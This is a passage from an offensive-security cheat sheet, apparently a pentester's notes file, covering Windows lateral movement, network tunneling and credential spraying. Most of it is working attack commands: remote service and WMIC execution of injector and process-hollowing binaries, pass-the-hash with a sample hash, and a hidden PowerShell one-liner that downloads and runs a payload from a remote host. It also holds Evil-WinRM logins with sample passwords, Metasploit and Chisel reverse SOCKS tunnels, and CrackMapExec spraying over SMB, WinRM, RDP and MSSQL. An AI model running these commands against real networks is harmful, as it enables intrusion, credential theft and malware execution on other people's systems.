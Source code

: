                 \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "\\192.168.45.158\visualstudio\Injector\NtProcessInjector\bin\x64\Release\NtProcessInjector.exe explorer"
            //PTH Method:
                python scshell.py MEGACORP/snovvcrash@192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -service-name lfsvc
                SCShell>C:\windows\system32\cmd.exe /c powershell.exe -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/payload.ps1')
        //WMIC RCE method (w/ creds):
            copy \\192.168.45.158\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\file01\c$\Windows\Temp
            wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\Temp\Hollow.exe"
        //WMI & MSBuild Method:
            https://github.com/pwn1sher/WMEye
        //Evil-WinRM:
            evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
                ls -force
            //test creds:  crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'

    //Tunneling:
        //Metasploit Reverse Socks Proxy:
            //useful if NAT is enabled
            use multi/manage/autoroute; set session 1; exploit
                //Or:  run autoroute -s 192.168.77.0/24
                //Manually:  route add 169.254.0.0 255.255.0.0 1
                //Confirm:  route print; route get 169.254.204.110
            use auxiliary/server/socks_proxy; set srvhost 127.0.0.1; exploit -j         //to stop: jobs; kill 0
                //Or:  use auxiliary/server/socks4a
            //edit /etc/proxychains4.conf
            proxychains rdesktop 192.168.120.10
        //Chisel Reverse Socks Proxy:
            //##Build .exe:  env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
            //Start server on kali
                /home/kali/data/chisel/chisel server -p 8000 --reverse
            //Transfer and run Client on Windows:
                upload /home/kali/data/chisel/chisel.exe c:\\Users\\Administrator\\Desktop
                //Socks Method:  chisel.exe client 192.168.45.215:8000 R:socks
                //Local tunnel Method:  chisel client 192.168.45.215:8000 R:33890:10.10.10.240:3389 R:5985:192.168.122.132:5985
            //Same thing for Linux:
                ./chisel client 192.168.45.215:8000 R:socks
        //Ligolo Tunneling:
            ...

    //Credential Spraying:
        //Get Users:
            ex. GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out
        //CrackMapExec:
            //check local and domain - detects local auth or domain automatically, but to specify a different domain for auth:  -d domain
            --continue-on-success to check all combos
            --local-auth for local auth on a domain box
            -p for pass, -H for hash
            //Local Auth:
                proxychains -q crackmapexec smb 172.16.177.0/24 -u 'Administrator' -H /tmp/hashes.txt --local-auth
            //SMB: proxychains -q crackmapexec smb 172.16.177.254 -u /tmp/users.txt -H /tmp/hashes.txt
            //Winrm:  proxychains -q crackmapexec winrm 172.16.177.254 -u /tmp/users.txt -H /tmp/hashes.txt
            //RDP:  proxychains -q crackmapexec rdp 172.16.177.254 -u /tmp/users.txt -p /tmp/pass.txt
            //MSSQL:  crackmapexec mssql hosts.txt  -u $user -p $pass
            //Kerberos:
                export KRB5CCNAME=...
                //add DChostname to /etc/hosts